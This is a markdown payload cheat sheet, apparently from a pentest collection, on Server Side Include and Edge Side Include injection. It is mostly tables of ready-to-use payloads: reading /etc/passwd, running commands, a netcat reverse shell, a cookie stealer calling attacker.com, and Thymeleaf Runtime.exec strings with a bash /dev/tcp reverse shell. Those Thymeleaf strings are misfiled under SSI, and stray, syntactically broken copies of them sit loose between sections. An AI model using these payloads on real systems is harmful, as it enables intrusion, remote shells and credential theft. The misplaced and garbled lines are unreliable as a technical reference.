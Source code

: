 # Server Side Include Injection

> Server Side Includes (SSI) are directives that are placed in HTML pages and evaluated on the server while the pages are being served. They let you add dynamically generated content to an existing HTML page, without having to serve the entire page via a CGI program, or other dynamic technology.

## Summary

* [Methodology](#methodology)
* [Edge Side Inclusion](#edge-side-inclusion)
* [References](#references)

## Methodology

SSI Injection occurs when an attacker can input Server Side Include directives into a web application. SSIs are directives that can include files, execute commands, or print environment variables/attributes. If user input is not properly sanitized within an SSI context, this input can be used to manipulate server-side behavior and access sensitive information or execute commands.

SSI format: `<!--#directive param="value" -->`

| Description             | Payload                                  |
| ----------------------- | ---------------------------------------- |
| Print the date          | `<!--#echo var="DATE_LOCAL" -->`         |
| Print the document name | `<!--#echo var="DOCUMENT_NAME" -->`      |
| Print all the variables | `<!--#printenv -->`                      |
| Setting variables       | `<!--#set var="name" value="Rich" -->`   |
| Include a file          | `<!--#include file="/etc/passwd" -->`    |
| Include a file          | `<p th:href="${''.getClass().forName('java.lang.Runtime').getRuntime().exec('bash -c $@|bash 0 echo bash -i >& /dev/tcp/ip/port/ip/ 0>&1')}">Hello!</p>` |
| Execute commands        | `<p th:href="${''.getClass().forName('java.lang.Runtime').getRuntime().exec('')}">vcs</p>`                 |
| Reverse shell           | `<!--#exec cmd="mkfifo /tmp/f;nc IP PORT 0</tmp/f\|/bin/bash 1>/tmp/f;rm /tmp/f" -->` |

## Edge Side Inclusion

HTTP surrogates cannot differentiate between genuine ESI tags from the upstream server and malicious ones embedded in the HTTP response. This means that if an attacker manages to inject ESI tags into the HTTP response, the surrogate will process and evaluate them without question, assuming they are legitimate tags originating from the upstream server.

Some surrogates will require ESI handling to be signaled in the Surrogate-Control HTTP header.

```ps1
Surrogate-Control: content="ESI/1.0"
```

| Description             | Payload                                  |
| ----------------------- | ---------------------------------------- |
| Blind detection         | `<esi:include src=http://attacker.com>`  |
| XSS                     | `<esi:include src=http://attacker.com/XSSPAYLOAD.html>` |
| Cookie stealer          | `<esi:include src=http://attacker.com/?cookie_stealer.php?=$(HTTP_COOKIE)>` |
| Include a file          | `<esi:include src="supersecret.txt">` |
| Display debug info      | `<esi:debug/>` |
| Add header              | `<!--esi $add_header('Location','http://attacker.com') -->` |
| Inline fragment         | `<esi:inline name="/attack.html" fetchable="yes"><script>prompt('XSS')</script></esi:inline>` |

<p th:href="${''.getClass().forName('java.lang.Runtime').getRuntime().exec('')}">vcs</p>

th:href="${''.getClass().forName('java.lang.Runtime').getRuntime().exec('bash -c $@|bash
0 echo bash -i >& /dev/tcp/ip/port/ 0>&1')}">vcs

th:href="${''.getClass().forName('java.lang.Runtime').getRuntime().exec('bash -c $@|bash 
0 echo bash -i >& /dev/tcp/ip/port 0>&1')}">vcs
| Software | Includes | Vars | Cookies | Upstream Headers Required | Host Whitelist |
| -------- | -------- | ---- | ------- | ------------------------- | -------------- |
| Squid3   | Yes      | Yes  | Yes     | Yes                       | No             |
| Varnish Cache | Yes | No   | No      | Yes                       | Yes            |
| Fastly   | Yes      | No   | No      | No                        | Yes            |
| Akamai ESI Test Server (ETS) | Yes | Yes | Yes | No              | No             |
| NodeJS' esi | Yes   | Yes  | Yes     | No                        | No             |
| NodeJS' nodesi | Yes | No  | No      | No                        | Optional       |

## References

* [Beyond XSS: Edge Side Include Injection - Louis Dion-Marcil - April 3, 2018](https://www.gosecure.net/blog/2018/04/03/beyond-xss-edge-side-include-injection/)
* [DEF CON 26 - Edge Side Include Injection Abusing Caching Servers into SSRF - ldionmarcil - October 23, 2018](https://www.youtube.com/watch?v=VUZGZnpSg8I)
* [ESI Injection Part 2: Abusing specific implementations - Philippe Arteau - May 2, 2019](https://gosecure.ai/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/)
* [Exploiting Server Side Include Injection - n00py - August 15, 2017](https://www.n00py.io/2017/08/exploiting-server-side-include-injection/)
* [Server Side Inclusion/Edge Side Inclusion Injection - HackTricks - July 19, 2024](https://book.hacktricks.xyz/pentesting-web/server-side-inclusion-edge-side-inclusion-injection)
* [Server-Side Includes (SSI) Injection - Weilin Zhong, Nsrav - December 4, 2019](https://owasp.org/www-community/attacks/Server-Side_Includes_(SSI)_Injection)
